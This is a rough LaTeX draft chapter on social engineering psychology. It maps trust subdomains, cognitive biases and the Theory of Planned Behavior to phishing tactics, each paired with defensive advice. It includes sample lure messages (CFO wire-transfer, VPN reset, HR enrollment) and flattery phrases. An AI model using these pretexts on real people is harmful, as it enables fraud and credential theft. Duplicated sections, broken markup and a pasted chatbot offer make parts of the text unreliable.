    
\includegraphics[width=0.75\linewidth]{theory.png}
    \caption{Figure 7.} Theory of planned behavior.
    \label{fig:placeholder}
\end{figure}

The methods to influence the attitudes and behaviors of victims can further be divided into subdomains, as shown below.

Subdomains of Trust and Deception

Trust is a cornerstone of human interaction-and deception is its calculated exploitation. In cybersecurity, especially in spearphishing and social engineering, attackers succeed not merely by exploiting technical vulnerabilities but by navigating, manipulating, and sometimes dismantling a target's trust framework. The subdomains of trust and deception refer to specific psychological, social, and contextual areas in which trust is built, maintained, and, at the same time, manipulated, and where deception can be most effective.

Understanding these subdomains is crucial for defenders because each represents a distinct attack vector. For attackers, these are leverage points-trust anchors that can be weaponized to bypass suspicion and encourage action. Some of the key psychological facets that social engineers exploit include, but are not limited to:

\subsection{1. Principles of Influence (Cialdini's Principles)}
\begin{itemize}
    \item Reciprocity
    \item Commitment and Consistency
    \item Social Proof
    \item Authority
    \item Liking
    \item Scarcity
\end{itemize}

\subsection{2. Emotional Manipulation}
\begin{itemize}
    \item Fear and Urgency
    \item Greed
    \item Curiosity
    \item Helpfulness / Sympathy
\end{itemize}

\subsection{3. Cognitive Biases}
\begin{itemize}
    \item \textit{Anchoring Bias}-Anchoring bias is the tendency for individuals to rely too heavily on the first piece of information they receive (the "anchor") when making subsequent judgments or decisions. Social engineers exploit this bias by presenting an initial piece of information, often misleading or irrelevant, to influence a target's perception and behavior.
    \item How It Works:
    \begin{itemize}
        \item \textit{1. The Initial Anchor:}
        \begin{itemize}
            \item A social engineer might start by presenting a high or low price for something, a fake statistic, or a fabricated piece of information.
        \end{itemize}
    \item \textit{2. Influence on Subsequent Decisions:}
    \begin{itemize}
        \item This initial "anchor" then influences how the target perceives and evaluates subsequent information or requests. For example, if a high initial price is presented, a subsequent lower price might seem like a good deal, even if it is still above the actual market value.
    \end{itemize}
    \item \textit{3. Skewed Perception:}
    \begin{itemize}
        \item By manipulating the initial anchor, social engineers can skew the target's perception of reality, making them more likely to accept their request to offers.
    \end{itemize}
    \end{itemize}
        \end{itemize}

\subsubsection{Examples of Anchoring Bias in Social Engineering}
\textbf{Negotiations:}
An attacker might start by suggesting an unrealistically high price for something, making a subsequent, more reasonable offer seem like a concession.

\textbf{Information Gathering:}
A social engineering might present a fake statistic about a company's performance to make a target more likely to divulge sensitive information that confirms that statistic.

\textbf{Phishing Attacks:}
An email that includes a large sum of money in the subject line might be an attempt to anchor the recipient's perception of the sender before asking for personal information.

\subsubsection{Guarding Against Anchoring Bias in Security Decisions}
When it comes to cybersecurity, users are often presented with information that can heavily influence their decisions. A common pitfall is anchoring bias-the tendency to rely too heavily on the first piece of information received, even when it may be incomplete or misleading. Training users to recognize and counter this bias is essential for building resilient security habits.

\textbf{Train users and staff to be aware of the bias:} Train users and staff to recognize that the first piece of information they receive might not be accurate or relevant. Research current red flags and and disseminate for user and staff situational awareness. 







Confirmation Bias
    \begin{itemize}
    \item Recency Bias
    \item Overconfidence Bias
    \item Halo Effect
    \item Commitment and Consistency
    \item Framing Effect

\end{itemize}

\subsection{4. Availability Heuristic}
    \begin{itemize}
        \item \textbf{Explanation:}People tend to overestimate the likelihood or importance of information that is easily recalled or readily available in their minds.
        \item \textbf{Social Engineering Exploitation:} Attackers leverage recent events, news stories, or familiar scenarios to make their attacks more believable and impactful. For example, referencing a recent data breach in a phishing email can increase the sense of urgency and make victims more likely to click on malicious links.
    \end{itemize}

\subsection{5. Loss Aversion}
\begin{itemize}
    \item \textbf{Explanation:}Individuals feel the pain of a loss more strongly than the pleasure of an equivalent gain.
    \item \textbf{Social Engineering Exploitation:} Attackers frame their messages in terms of potential losses if the target does not comply. For example, threatening account suspension or data deletion can be more effective than promising a reward (that can't ever be legitimately delivered).
\end{itemize}

\subsection{6. Hyperbolic Discounting}
\begin{itemize}
    \item \textbf{Explanation:} People prefer smaller, immediate rewards over larger, delayed rewards.
    \item \textbf{Social Engineering Exploitation:} Attackers offer immediate, seemingly attractive rewards to entice victims into making quick decisions without considering the long-term consequences. For example, offering a free gift or discount that requires personal information such as zip code or birth date can exploit this bias.

\end{itemize}

\subsection{7. Ostrich Effect}
\begin{itemize}
    \item \textbf{Explanation:} Individuals avoid information they perceive as negative or threatening, similar to the proverbial ostrich burying its head in the sand.
    \item \textbf{Social Engineering Exploitation:} Attackers create a sense of urgency by implying that if the target does not act quickly, something negative will happen. This pushes individuals to act before fully evaluating the situation.
\end{itemize}

\subsection{8. Optimism Bias}
\begin{itemize}
    \item \textbf{Explanation:} People tend to overestimate the likelihood of positive events occurring to them while underestimating the probability of negative events.
    \item \textbf{Social Engineering Exploitation:} Attackers might offer enticing but false opportunities like fake job offers or lottery winnings, playing on the target's optimism and desire for positive outcomes.
\end{itemize}

\subsection{9. Curiosity Effect}
\begin{itemize}
    \item \textbf{Explanation:} People are drawn to resolve uncertainty or curiosity, even if it might lead to negative consequences.
    \item \textbf{Social Engineering Exploitation:} Attackers use intriguing subject lines or offer "secret information" or exclusive deals to pique the target's curiosity and encourage them to click on malicious links or open infected attachments. 
\end{itemize}

\subsection{10. Ingratiation}

Correlating TPB Into Social Engineering Attacks

\subsection{\textbf{1. Attitude Toward the Behavior}}

\begin{itemize}
    \item \textbf{TPB Meaning:} A person’s evaluation of whether performing the behavior is good or bad.
    \item \textbf{Attacker’s Goal:} Make the \textit{malicious action} (clicking a link, opening an attachment, sharing credentials) seem beneficial, low-risk, or even necessary.
    \item \textbf{Exploitation Examples:}
    \begin{itemize}
        \item Framing the action as \textbf{helpful}: “We need your urgent input to finalize the quarterly report.”
        \item Creating a \textbf{positive reward association}: “You’ve won an award—click to claim it.”
        \item Downplaying risk: “This is just the updated company form, nothing sensitive.”
    \end{itemize}
\end{itemize}
\textbf{Defender’s Takeaway:} Security awareness must shift employees’ \textit{attitude} by making risky actions seem \textit{unambiguously negative} and reminding them of the potential harm.

\subsection{\textbf{2. Subjective Norms}}

\begin{itemize}
    \item \textbf{TPB Meaning:} The perceived social pressure to perform or not perform the behavior.
    \item \textbf{Attacker’s Goal:} Make the target believe that \textbf{important or respected people expect} them to comply—or that “everyone else is doing it.”
    \item \textbf{Exploitation Examples:}
    \begin{itemize}
        \item \textbf{Authority Impersonation:} “This is a direct request from the CEO.”
        \item \textbf{Social Proof:} “All team leads have already completed this step.”
        \item \textbf{Peer pressure framing:} “Finance already sent their details—why are you delaying?”
    \end{itemize}
\end{itemize}
\textbf{Defender’s Takeaway:} Organizations should normalize \textit{verification before action} as the “expected” social behavior, so the default pressure is to confirm legitimacy before complying.

\subsection{\textbf{3. Perceived Behavioral Control (PBC)}}

\begin{itemize}
    \item \textbf{TPB Meaning:} How capable the person feels in performing the behavior.
    \item \textbf{Attacker’s Goal:} Lower the target’s perception of difficulty so compliance feels effortless—or make refusal seem technically impossible.
    \item \textbf{Exploitation Examples:}
    \begin{itemize}
        \item Providing a \textbf{simple, frictionless path}: “Just click this one link and enter your password.”
        \item \textbf{Time pressure:} “This must be done within the hour or your account will be suspended,” removing time to think.
        \item Making it \textbf{feel routine}: “This is the same payroll confirmation process you’ve always used.”
    \end{itemize}
\end{itemize}
\textbf{Defender’s Takeaway:} Increase employees’ \textit{perceived control over resisting}—for example, by training them in easy verification techniques and creating low-friction reporting tools.

\subsection{\textbf{Putting It Together: The Attacker’s TPB Model}}

Attackers design social engineering campaigns to influence the \textbf{intention} to comply:

\begin{quote}
\textbf{Influence Attitude} → “This is good/necessary for me.”

 \textbf{Influence Subjective Norms} → “My boss/peers expect this.”

 \textbf{Manipulate PBC} → “This is easy for me to do; refusing isn’t worth it.”

\end{quote}

When \textbf{intention} is high, actual compliance (behavior) follows—whether that’s opening an attachment, transferring funds, or sharing credentials.

\subsection{\textbf{Defender Application}}

From a defensive standpoint, TPB can be flipped:

\begin{itemize}
    \item \textbf{Attitude:} Train staff to see \textit{non-compliance with suspicious requests} as positive.
    \item \textbf{Subjective Norms:} Make “verify first” a visible and valued norm in the culture.
    \item \textbf{PBC:} Give employees the tools and confidence to resist and report attacks.
\end{itemize}
If you’d like, I can \textbf{build a TPB-based “social engineering attack lifecycle” diagram} showing exactly how phishing emails or vishing calls are structured to target \textit{each TPB element} and push the victim toward compliance.

 That would make it easy to spot attacker patterns in real campaigns.



\subsection{1. Relational Trust}
\textbf{Description:} Relational trust arises from familiarity-personal relationships, known colleagues, repeated interactions, or established rapport. It is strongest when forged over time and reinforced by consistent, positive behavior.

\textbf{Deception Angle:} Attackers exploit relational trust by impersonating known individuals or entities. This could be via email spoofing, typosquatting, or even compromising legitimate accounts to send messages. Because the sender appears familiar, the target's cognitive guard lowers, making them more likely to comply first without even thinking to verify.

\textbf{Example:} An email from a "manager" requesting urgent document access. Even subtle cues-such as a familiar greeting style or referencing past projects-can anchor the deception.

\begin{svgraybox}
\textbf{Defensive Relevance:}

Defenders must educate users that even known senders can be spoofed or compromised. Verification protocols and multi-channel confirmation processes help to mitigate relational trust exploitation.
\end{svgraybox}

\subsection{2. Contextual Trust}
\textbf{Description:} This trust stems from messages or requests fitting neatly into the recipient's immediate environment, workflow, or current events. If a message "belongs" in the moment, it will be less likely to raise any suspicions.

\textbf{Deception Angle:} Spearphishers craft messages that align with ongoing projects, organizational events, personal circumstances, or familiarities. This can include referencing company meetings, seasonal activities, or urgent business timelines.

\textbf{Example:} An HR-themed phishing email sent during open enrollment season, or a "project update" request arriving in the middle of an actual project cycle.

\begin{svgraybox}
\textbf{Defensive Relevance}
Security teams and defenders can deploy behavioral monitoring and timing awareness to detect anomalous patterns. For example, HR communications coming from non-HR domains.
\end{svgraybox}

\subsection{3. Authority-Based Trust}
\textbf{Description:} This form of trust is built on perceived power, expertise, or hierarchical status. Humans are more likely to comply with requests from those they believe have any type of authority or power over them.

\textbf{Deception Angle:} Attackers often impersonate law enforcement (\textbf{illegal} to do so, by the way), executives, senior staff, or recognized experts, issuing directives that appear urgent in nature and unquestionable. The "CEO Fraud" scam is a textbook example, where attackers instruct employees to transfer funds or disclose sensitive information.

\textbf{Example:} An email from the company CFO instructing a wire transfer, invoking urgent deadlines and the strictest confidentiality.

\begin{svgraybox}
    \textbf{Defensive Relevance:}

    Defenders must instill the importance into security teams to train employees to validate authority requests through secondary channels, especially those involving financial or data transfers. Implement dual-authorization or a double-verification for sensitive transactions.
\end{svgraybox}

\subsection{4. Procedural Trust}
\textbf{Description:} Procedural trust emerges when an interaction follows an expected and familiar process. If the request aligns with established protocols, it feels legitimate.

\textbf{Deception Angle:} Attackers mimic legitimate processes, such as forms, document templates, login flows, and more to convince targets that the request is standard procedure.

\textbf{Example:} A phishing page replicating the exact look and flow of the company's VPN login portal, or a fake "password reset" request using identical corporate branding schemes.

\begin{svgraybox}
    \textbf{Defensive Relevance:}
    Multi-factor authentication and verification alerts can interrupt procedural mimicry. Routine internal audits should look for cloned or spoofed instances.
\end{svgraybox}

\subsection{5. Social Proof Trust}
\textbf{Description:} Social proof occurs when people look to the actions of others to guide their own decisions, especially under uncertainty.

\textbf{Deception Angle:} Attackers create the illusion that others have already complied or endorsed the request. This can involve fabricating testimonials, references to specific group actions, or even displaying fake counters showing just how "many others" have acted.

\textbf{Example:} \textit{"Several colleagues have already completed this security update, we're just waiting for you to complete yours. Please click here to finalize your security update."}

\begin{svgraybox}
Defensive Relevance:
Users should be trained to recognize fabricated consensus claims and to verify the authenticity of group endorsements.
\end{svgraybox}

\subsection{6. Cognitive Ease and Habit Trust}
\textbf{Description:} Cognitive ease comes from familiarity, repetition, and simplicity. When something feels familiar and is easy to process, the brain perceives it as more trustworthy.

\textbf{Deception Angle:} Attackers exploit routine behaviors-such as clicking familiar-looking links or opening standard document formats. By replicating the "look and feel" of past legitimate communications, they reduce the mental friction that triggers skepticism.

\textbf{Example:} A monthly "invoice" notification from a supplier-except the sender's domain is subtly altered (e.g., legitimate = www.poolsupplies.com / illegitimate = www.poolsuplies.com/).

\begin{svgraybox}
\textbf{Deception Relevance:}
Break habitual click patterns with periodic simulated phishing and dynamic email banners that highlight potential risks.
\end{svgraybox}

\subsection{7. Reciprocity-Based Trust}
\justifying
\noindent\textbf{Definition: }Humans are wired to return favors and match perceived generosity or effort.
{\justifying
\par\noindent\textbf{Deception Angle}: Attackers offer something-information, a free tool, a perceived benefit-and expect the target to "give back" by clicking a link or providing access.} \\
{\justifying
\textbf{Example:} \textit{"As a valued employee, you have been given access to our new HR benefits portal."}}

%\begin{svgraybox}
\tipbox{Defensive Relevance:}
    Encourage healthy skepticism around unsolicited offers, even if they appear to come from legitimate internal sources.

\subsection{7. Reciprocity-Based Trust}
{\justifying
\noindent\textbf{{Definition:} }Temporal trust emerges when timing aligns perfectly with expectations or urgency creates a pressure to act quickly.}
{\justifying
\par\noindent\textbf{\textbf{Deception Angle:} }Deadlines, expiring offers, and emergency situations short-circuit rational decision-making. The perceived cost of delay outweighs the urge to verify authenticity.}
{\justifying
\textbf{\textbf{Example:}} \textit{"Your account will be locked in 24 hours unless you reset your password immediately."}}




\subsection{8. Temporal Trust}
\textbf{



\begin{svgraybox}
    \textbf{Defensive Relevance:}
    Educate users about urgency traps and encourage deliberate pause-and-verify practices-especially for requests with time pressure or constraints.
\end{svgraybox}


\subsection{Domains of Trust and Deception is Social Engineering}
\begin{quote}
    \textit{Trust is the grease of human interaction-and deception is the calculated contamination of that grease. In cybersecurity, particularly in spearphishing and social engineering, attackers succeed not only by exploiting technical vulnerabilities, but by infiltrating, manipulating, and dismantling a target's trust framework. Trust is not a monolith-it is composed of multiple psychological, social, and contextual elements, each of which can be targeted as a distinct attack surface.}
\end{quote}
Understanding these \textbf{subdomains of trust} is critical for defenders because it represents a unique \textbf{vector of manipulation.} For attackers, these are attractive leverage points-the "trust anchors" that can be weaponized to bypass suspicion and elicit an immediate action. Each subdomain below combines elements of \textbf{psychology, social dynamics, and behavioral economics,} along with the \textbf{cognitive biases} and \textbf{principles of influence} that make them effective.

\subsection{1. Relational Trust}
\textbf{Definition:} Built on familiarity and personal connection-colleagues, friends, long-term business relationships-strengthened by repeated positive interactions.
\textbf{Exploitation:} Social engineers impersonate known individuals, clone profiles, or compromise legitimate accounts. Subtle cues like tone, nicknames, or references to shared experiences lower the target's guard.
\textbf{Example:} An email from a manager requesting sensitive files, signed with their usual salutation and referencing last week's meeting.
\textit{"Hey, it's Nick from accounting-can you please send me the vendor payment files from last week? I'm swamped and just need to forward them to finance before the meeting."}
\textbf{Bias / Principle Link:} \textit{Liking, Similarity, Halo Effect.}
\textbf{Defensive Relevance:} Train employees that "familiar" is not "safe." Use multi-channel verification and account-compromise monitoring.

\subsection{2. Contextual Trust}
\textbf{Definition:} Arises when a request fits neatly into the target's current work, environment, or life context.
\textbf{Exploitation:} Attackers time messages to align with seasonal events (tax season, open enrollment) or active projects, making them seem naturally embedded in ongoing activities.
\textbf{Example:} A fake HR survey during benefits enrollment week.
\textit{"Hi, we are finalizing the open enrollment forms today as it is the deadline. Can you please log into the HR portal and confirm your benefits selections before 5 pm?"}
\textbf{Bias / Principle Link:} \textit{Framing Effect, Availability Heuristic.}
\textbf{Defensive Relevance:} Flag unexpected senders or domains in time-sensitive processes. Build awareness of "contextual mirroring" as a red flag.

\subsection{3. Authority-Based Trust}
\textbf{Definition:} Trust granted due to hierarchical status, power, or perceived authority or expertise.
\textbf{Exploitation:} "CEO fraud" and law enforcement impersonation prey on obedience to authority and fear of repercussions.
\textbf{Example:} A spoofed email from the CFO ordering a confidential wire transfer.
\textit{"This is Nina from the CFOs office. The CEO needs these wire transfers processed immediately for a confidential acquisition-send the confirmation once its done."}
\textbf{Bias / Principle Link:} \textit{Authority, Obedience Effect.}
\textbf{Defensive Relevance:} Implement dual-authorization for high-risk actions; normalize questioning authority in digital requests.

\subsection{4. Procedural Trust}
\textbf{Definition:} Rooted in familiarity with established processes and workflows.
\textbf{Exploitation:} Attacker replicate standard forms, login flows, and reset processes to create the illusion of legitimacy.
\textbf{Example:} A phishing page mimicking the exact look and URL structure of the corporate VPN portal.
\textit{"Hi, this is your IT department. We have noticed a login issue with your corporate VPN account. At your earliest convenience, please reset your password using the standard portal link provided below to avoid being locked out or having your account suspended."}
\textbf{Bias / Principle Link:} \textit{Cognitive Ease, Commitment and Consistency.}
\textbf{Defensive Relevance:} Use unique visual indicators for genuine information systems; audit for lookalike or typosquatted domains.

\subsection{5. Social Proof Trust}
\textbf{Definition:} Trust generated by the perception that "everyone else" is doing something.
\textbf{Exploitation:} Messages claim that colleagues have already complied or that the request is standard practice.
\textbf{Example:} "All team leads have already completed this mandatory security step-we are just waiting on yours."
\textbf{Bias / Principle Link: }\textit{Social Proof, Normative Influence.}
\textbf{Defensive Relevance:} Teach employees to verify claims of group participation through official channels.

\subsection{6. Cognitive Ease and Habit Trust}
\textbf{Definition:} Comfort and lowered skepticism for repetition and familiarity.
\textbf{Exploitation:} Malicious requests mimic routine tasks-invoice approvals, meeting invites-to slip past mental defenses.
\textbf{Example:} A monthly "invoice" with a slightly altered sender domain.
\textbf{Bias / Principle Link:} \textit{Recency Bias, Anchoring Bias.}
\textbf{Defensive Relevance:} Introduce controlled variability into routine processes; run simulations to break autopilot behaviors.

\subsection{7. Reciprocity-Based Trust}
\textbf{Definition:} The human tendency to return favors and match perceived generosity.
\textbf{Exploitation:} Attackers offer perks, early access, or helpful information in exchange for action.
\textbf{Example:} "As a valued employee, you have early access to our new HR portal."
\textbf{Bias / Principle Link:} \textit{Reciprocity Principle.}
\textbf{Defensive Relevance:} Encourage skepticism toward unsolicited "benefits," even when internally branded.

\subsection{8. Temporal Trust}
\textbf{Definition:} Trust (and compliance) heightened when timing matches expectations or urgency limits decision-making.
\textbf{Exploitation:} Urgency framing ("Your account will be locked in 24 hours") forces fast action without verification.
\textbf{Example:} A fake "final warning" about account suspension.
\textbf{Bias / Principle Link:} \textit{Scarcity, Loss Aversion, Hyperbolic Discounting.}
\textbf{Defensive Relevance:} Teach deliberate pause techniques; enforce mandatory cooling-off periods for certain actions to gain a "clearer mind."

\subsection{9. Emotional Leverage}
\textbf{Definition:} Trust shaped or overridden by emotional state-positive or negative.
\textbf{Exploitation:} Fear, greed, curiosity, or flattery can override rational analysis.
\begin{itemize}
    \item \textbf{Fear / Urgency:} Threats of loss or negative outcomes (\textit{Loss Aversion, Ostrich Effect})
    \item \textbf{Greed:} Promises of financial gain or rewards. (\textit{Optimism Bias})
    \item \textbf{Curiosity:} Teasing "secret" or "exclusive" information. (\textit{Curiosity Effect})
    \item \textbf{Ingratiation / Flattery:} Boosting the target's self-image (\textit{"You are the only one I trust to do this right"}). (\textit{Liking, Social Exchange Theory})
\textbf{Example: }"You have been selected for an exclusive leadership program-click now to confirm participation."
\textbf{Defensive Relevance:} Include emotional manipulation recognition in training; rehearse slow-response decision-,making under emotional load.
\end{itemize}

\subsection{10. Cognitive Bias Exploitation}
Beyond the subdomains above, attackers systematically weaponize \textbf{predictable thinking shortcuts:}
\begin{itemize}
    \item \textbf{Anchoring Bias:} Setting a mental reference point to influence decisions.
    \item \textbf{Confirmation Bias:} Supplying information that aligns with the target's existing beliefs.
    \item \textbf{Halo Effect:} Borrowing trust from one attribute (e.g., professional appearance) to mask malicious intent.
    \item \textbf{Framing Effect:} Presenting the same choice in gain versus loss terms to steer compliance initiatives.
\end{itemize}
\textbf{Defensive Relevance:} Bias-awareness training can help users pause before acting when a message "feels right" without evidence.

\subsection{11. Theory of Planned Behavior (TPB) in Social Engineering}
Attackers map their strategies to TPBs three levers:
\begin{itemize}
    \item \textbf{Attitude Toward the Behavior:} Make malicious actions seem beneficial or harmless.
    \item \textbf{Subjective Norms:} Suggest that respected figures or peers expect compliance.
    \item \textbf{Perceived Behavioral Control:} Remove perceived obstacles to acting; make refusal seem costly or impossible.

\end{itemize}

\subsection{12. Ingratiation (Ego-Boosting / Flattery)}
\textbf{Mechanism:} You create rapport and lower skepticism by appealing to the target's self-esteem, ego, or sense of uniqueness. By flattering their skills, reliability, or importance, you make them feel valued and special-thereby increasing the likelihood they will comply with your request.
\textbf{Typical Phrases:}
\begin{itemize}
    \item \textit{"You're the only one I can trust with this."}
    \item \textit{"You are my go-to person for this kind of thing."}
    \item \textit{"Nobody else has the expertise that you do."}
\end{itemize}
\textbf{Why It Works:}
\begin{itemize}
    \item \textbf{Reciprocity Trigger:} People often feel a subconscious need to "return the favor" after being given praise.
    \item \textbf{Self-Concept Alignment:} The request aligns with how they want to see themselves-competent, trusted, essential.
    \item \textbf{Reduced Critical Thinking and Rationale:} Positive emotional states, especially pride, can reduce vigilance and increase compliance.
\end{itemize}
\textbf{Psychological Foundations:}
\begin{itemize}
    \item \textbf{Cialdini's Principle of Liking:} We are more easily persuaded by people who express admiration for us.
    \item \textbf{Ego Depletion Effect:} Ego-boosting can shift focus away from skepticism toward maintaining the positive interaction.
    \item \textbf{Ingratiation Theory:} Strategic praise increases perceived similarity and rapport, leading to greater compliance.
\end{itemize}







By aligning with these levers, attackers raise the intention to comply, which directly increases the likelihood of the target performing the malicious action.

The subdomains of trust and deception are not isolated-attackers often blend multiple laevers in a single communication. An email could simultaneously exploit \textit{authority, context, urgency,} and \textit{social proof.} Defenders must train to recognize these patterns in combination, not in isolation, and develop layered verification and cultural norms that erode the attacker's psychological foothold.


\begin{itemize}
    \item Trust / Relation
    \begin{itemize}
        \item Building trust is one of the most crucial parts of an SE attack. An attacker can use multiple means to develop a trusted
    \end{itemize}
\end{itemize}








\paragraph{\textit{3.5. Language and Reasoning}}

Language is not only the most common method of communication, but it is also a means of processing, generating, and expressing thoughts. The process of social interaction using language is very similar to a programming language process. Humans hear the words as input, process those words, and generate a response as output. Seeking appropriate words to explain the context of the subject or feeling is important. This implies that crafting and elaborating information for SE attacks relies heavily on the language being used for interacting with the victim, i.e., the language cognition is exploited. \textbf{Table 7} provides an overview of language and reasoning sub-domains associated with SE attacks.\textbf{Table 7.} Sub-domains of language/reasoning linked with social engineering attacks.Effective cyberattacks based on SE rely on human vulnerabilities. The attackers exploit human behavior, knowledge, emotions, cognition, personal traits, human nature, etc. \textbf{Table 8} highlights the human vulnerabilities associated with SE attacks. A single SE attack can be conducted using multiple influence methods. A single influence method can exploit several human vulnerabilities. This multidimensional interconnection between SE attacks, influence methods, and human vulnerabilities makes SE-based cyberattacks challenging for security professionals.\textbf{Table 8.} Association between social engineering-based cyberattacks, method of influence, and human vulnerability.The mapping in \href{https://www.mdpi.com/2076-3417/12/12/6042\#table_body_display_applsci-12-06042-t008}{\textbf{Table 8}} provides a simple yet elaborate perspective on the working of SE attacks. Such mapping can assist greatly in identifying the vulnerabilities and building an effective security infrastructure to mitigate them. The highlighted interconnection between human vulnerabilities and SE attacks may not be sufficient to represent every age group or human behavior; however, it can provide a broader perspective to individuals and organizations on understanding and countering these SE-based cyberattacks.

\paragraph{\textit{3.6. Countering Social Engineering-Based Cyberattacks}}

Human awareness can be identified as a key factor in countering SE attacks. SE methods focus on hacking humans by targeting human cognitive biases rather than machines. The methods to counter SE-based cyberattacks can be seen in \href{https://www.mdpi.com/2076-3417/12/12/6042\#table_body_display_applsci-12-06042-t009}{\textbf{Table 9}}. The ML-based approaches to counter and detect SE-based cyberattacks are discussed separately in \href{https://www.mdpi.com/2076-3417/12/12/6042\#sec5-applsci-12-06042}{\textbf{Section 5}}. Based on recently published work, most researchers find the following methods to be highly effective to counter SE attacks. Based on \href{https://www.mdpi.com/2076-3417/12/12/6042\#table_body_display_applsci-12-06042-t009}{\textbf{Table 9}}, it can be concluded that training and educating individuals on cybersecurity and SE attacks can play a significant role. In \href{https://www.mdpi.com/2076-3417/12/12/6042\#table_body_display_applsci-12-06042-t009}{\textbf{Table 9}}, the checkmark highlight the countermeasures suggested by the referred study.\textbf{Table 9.} Suggested method to counter social engineering attacks.Several researchers have highlighted the role of well-defined policies to counter cyberattacks. Policies that can be implemented to avoid and manage an event of a data breach or SE-based cyberattacks. Organizational policies are further categorized into two main groups cybersecurity and communication policies. Cybersecurity policies are defined specifically for cyberattacks. Such policies may include instructions on avoiding illegal software, use of personal devices on the company network, steps to follow in case of cyberattacks, documentation of a cyberattack, human resources (HR) procedures for third party vendor privileges and access, critical area access management, password management, organizational security infrastructure, etc.A well-defined cybersecurity policy can limit many data breaches or cyberattacks. Moreover, organizational policies for official (or in some cases, unofficial) communication should be implemented. The reason to implement a separate set of policies for communication is based on the high number of SE attacks that exploit communication norms to conduct cyberattacks (i.e., \href{https://www.mdpi.com/2076-3417/12/12/6042\#table_body_display_applsci-12-06042-t001}{\textbf{Table 